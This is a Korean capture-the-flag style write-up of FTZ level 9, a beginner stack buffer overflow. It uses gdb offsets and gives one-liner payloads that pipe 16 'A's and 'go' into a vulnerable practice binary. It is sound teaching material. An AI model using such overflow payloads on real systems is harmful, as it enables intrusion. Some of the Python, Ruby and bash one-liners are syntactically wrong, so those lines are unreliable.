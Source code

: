 ## FTZ level9 풀이 

------------------------------------------

### 01 문제 파악 

버퍼 오버플로우 입문! 

스택의 구조 ; 지역 변수가 스택에 배치되는 순서와 위치를 알자 

![1](https://user-images.githubusercontent.com/40850499/43044897-b6951be6-8de9-11e8-98a1-ecb3a1ed90cb.png)



### 02 의도 분석 

키보드로 입력 받거나 데이터를 넣는 부분이 없음 (buf2 배열에 값을 입력하기 불가능한 상황)

→ 강제 입력 가능  

→ 특정 값을 원하는 메모리에 덮어쓸 수 있는가?  



### 03 나의 풀이 

![3-1](https://user-images.githubusercontent.com/40850499/43044900-c0074dca-8de9-11e8-8246-7246e1b8c0a1.JPG)

buf와 buf2 배열 사이의 더미값이 얼마인지 몰라서 buf2에 go가 들어갈 때까지 위 과정을 반복했다. 

my-pass명령어를 입력하면 패스워드가 나온다. 



### 04 다른 풀이

스택의 구성을 파악하기 위해 buf 배열과 buf2 배열 사이의 간격을 확인해야 한다. 

1. hint 파일을 베껴와서 tmp 폴더에 bof.c를 만들었다. 
2. (1) vi 편집기를 실행하여

![1](https://user-images.githubusercontent.com/40850499/43044906-d2740354-8de9-11e8-8cb0-c7b65814a673.JPG)

2. (2) 한글을 모두 제외한 후에 

![2](https://user-images.githubusercontent.com/40850499/43044907-d4608e58-8de9-11e8-846e-acd65f78fc32.JPG)



3. tmp 폴더에 컴파일 하고 gdb로 열었다. 

![3](https://user-images.githubusercontent.com/40850499/43044908-d7b77ddc-8de9-11e8-8358-883359cff677.JPG)



4. 다음에서 lea 오피코드가 있는 두 부분을 따로 떼어보면 

![4](https://user-images.githubusercontent.com/40850499/43044910-d9273da6-8de9-11e8-86b3-6c07156af2fa.JPG)

   1. > lea  eax, [ebp-40]
      >
      > lea  eax, [ebp-24]

      40  > 24로 바뀐다. 즉 buf배열에서 16바이트를 할당 받는다는 것을 알 수 있었다. 

       따라서 buf2에 넘어가도록 buf에 16개의 문자열를 넣은 후에 buf2에 넘어가는 초기 2바이트를 go로 넣어주면 된다.  

      다량의 문자열을 입력하는 방법은 아래 "05 새로 알게된 것 > 3) 스크립트를 이용한 문자열 입력 방법" 에 설명했다.




### 05 새로 알게된 것

  1) <unistd.h> 헤더 : 유닉스 계열 시스템에서 시스템 콜을 하기 위해 사용하는 헤더파일

  2) 'id' 명령어 : uid, gid, groups의 권한을 알려준다

  3) 스크립트를 이용한 문자열 입력 방법

* 배시셸의 printf명령을 이용한 방법

  > [level9@ftz tmp]$ (for i in 'seq 1 16'; do printf "A"; done; printf "go"; cat) | /usr/bin/bof 

* 펄 스크립트를 이용한 방법 

  > [level9@ftz tmp]$ (perl -e 'print "A"x16, "go"'; cat) | /usr/bin/bof 

* 파이썬 스크립트를 이용한 방법

  > [level9@ftz tmp]$ (python -c 'print "A"x16, "go"'; cat) | /usr/bin/bof 

* 루비 스크립트를 이용한 방법 

  > [level9@ftz tmp]$ (ruby -e 'print "A"x16, "go"'; cat) | /usr/bin/bof 



#### *참고자료 

* 여동기. 『문제 풀이로 배우는 시스템 해킹 테크닉』. 위키북스, 2015. 
* 우스이 토시노리 외 7인. 『CTF 정보보안 콘테스트 챌린지 북』. 위키북스, 2016. 
